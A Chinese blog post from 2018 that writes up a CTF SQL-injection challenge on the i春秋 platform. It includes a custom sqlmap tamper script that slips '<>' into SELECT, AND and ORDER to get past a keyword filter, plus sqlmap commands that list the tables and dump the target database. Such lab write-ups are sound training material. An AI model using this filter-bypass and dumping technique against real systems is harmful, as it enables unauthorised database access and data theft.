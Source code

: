 ```yaml
---

layout: post
title:  CTF竞赛-SQL注入
subtitle: 本文为CTF web网络攻防方向，主要记录SQL注入的一道题
date:   2018-04-13 21:45:00 +0800
author: "Yewbs"
header-img:  'images/gallery/wineglass-and-a-bowl-of-fruit.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Wineglass and a Bowl of Fruit  
Creator: Willem Kalf (Dutch, 1619–1693)  
Date Created: 1663  
Physical Dimensions: Framed: 81 x 70.5 x 7.5 cm (31 7/8 x 27 3/4 x 2 15/16 in.); Unframed: 60.3 x 50.2 cm (23 3/4 x 19 3/4 in.)  
Type: Painting  
Medium: oil on canvas  
Inscriptions: Signed and dated lower left: "W. KALF 1663"  
Fun Fact: Willem Kalf was the most accomplished proponent of the pronkstilleven, a Dutch term meaning "ostentatious still life."  
Department: European Painting and Sculpture  
Culture: Netherlands, 17th century  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #SQL#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【SQL】的题目：

![ctf-20180413211837458](/images/posts/ctf/ctf-20180413211837458.png)

## 解题过程

题目内容：

出题人就告诉你这是个注入，有种别走！

题目很嚣张，进入靶场环境后，也很直接，告诉你flag就在数据库中。习惯性打开F12，调出**HackBar**:

![ctf-20180413212033452](/images/posts/ctf/ctf-20180413212033452.png)

- 先一顿手工注入测试，基本上出现下面三种回显：

  1）明说是**注入代码**

  ![ctf-20180413212311861](/images/posts/ctf/ctf-20180413212311861.png)

  2）空白

  ![ctf-20180413212415559](/images/posts/ctf/ctf-20180413212415559.png)

  3）**有效回显**

  ![ctf-20180413212510702](/images/posts/ctf/ctf-20180413212510702.png)

- 时间过去了一大半，终于探测出来了个大概：

  - select、and、or、order等关键词会被检测直接标记**inj code**
  - <>会被替换为空
  - union联合查询输出长度为3

- 下面开始祭出sqlmap大法，当然需要会使用基本的sqlmap语法，网上教程请自行慢慢享用

  另外还需要会编写sqlmap tamper的一点点知识

  这里，我找了个sqlmap自带的`escapequotes.py`的过滤语法：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      return payload.replace("'", "\\'").replace('"', '\\"')
  ```

  然后在此基础上，修改为刚刚找出来的几个关键词过滤，保存为自己的`mytam`：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      payload = payload.replace("SELECT", "SE<>LECT").replace('AND', 'AN<>D').replace("ORDER", "ORD<>ER")
      return payload
  ```

  重点就是替换了`select`、`and`、`order`三个关键词

- 然后放到sqlmap里跑一跑：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py`

  ![ctf-20180413213455006](/images/posts/ctf/ctf-20180413213455006.png)

  因为我已经跑过一遍了，这里直接读取session拿到结果了，说明这里存在可以利用的sql漏洞

- 接下来获取数据库和表：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py --tables`

  ![ctf-20180413213706267](/images/posts/ctf/ctf-20180413213706267.png)

  可以发现除了系统表以外，在sqli数据库里面存在两张表：info和users，大概率就在info表里了

- 直接查info表里的所有信息：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py -D sqli -T info --dump`

  ![ctf-20180413213857446](/images/posts/ctf/ctf-20180413213857446.png)

至此，得到flag。

## 总结

这次题目主要针对sql注入，注意点有两个：

1、手工注入测试，找到过滤规则，这也是在实战中经常会需要绕过WAF的方法，多练就是了

2、sqlmap的熟练使用，会加快渗透测试流程。前提也是需要对sqlmap有一定的熟练程度
